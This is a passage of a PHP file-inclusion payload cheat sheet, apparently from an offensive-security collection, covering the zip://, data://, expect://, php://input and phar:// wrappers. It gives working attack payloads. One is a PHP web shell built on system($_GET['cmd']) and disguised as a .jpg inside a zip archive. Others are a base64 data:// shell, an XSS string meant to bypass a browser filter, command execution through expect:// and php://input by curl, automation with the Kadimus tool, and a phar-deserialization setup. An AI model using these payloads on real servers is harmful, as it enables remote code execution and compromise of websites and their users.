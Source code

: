 ### **Wrapper zip://** ###

```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

### **Wrapper data://** ###

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

### **Wrapper expect://** ###

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### **Wrapper input://** ###

Specify your payload in the POST parameters, this can be done with a simple `curl` command.

```
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

#### **Alternatively, Kadimus has a module to automate this attack.** ######

```
./kadimus -u "https://example.com/index.php?page=php://input%00"  -C '<?php echo shell_exec("id"); ?>' -T input
```

### **Wrapper phar://** ###

Create a phar file with a serialized object in its meta-data.

```
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```
